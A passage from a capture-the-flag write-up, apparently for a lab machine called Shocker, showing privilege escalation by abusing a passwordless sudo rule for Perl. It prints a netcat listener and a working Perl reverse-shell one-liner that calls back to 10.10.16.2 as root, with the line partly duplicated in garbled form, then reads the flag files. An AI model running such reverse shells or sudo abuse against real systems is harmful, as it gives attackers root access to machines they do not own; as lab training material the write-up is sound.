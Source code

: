 ## Privilege Escalation

trying
```shell
sudo -l

->
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

we can use the programming language perl as root with no password ,just search any perl reverse shell oneliner and start a nc listener as follows 

```shell
nc -nlvp 4242
```

and on another tab the oneliner :
```shell
sudo perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.2:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
<"10.10.16.2:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
```
we have a reverse shell ,using whoami returns root.
## Capturing the Flag

searching for .txt files in the root and home directories 

```shell
find /root /home -name "*.txt" 2>/dev/null

->
/root/root.txt
/home/shelly/user.txt
```

grap the flags using the cat command

```shell
cat /home/shelly/user.txt
cat /root/root.txt
```


# Lesson

- Always search the internet when you find a suspicious directory or file name 
- Don't forget to try shellshock when you have a cgi file or directory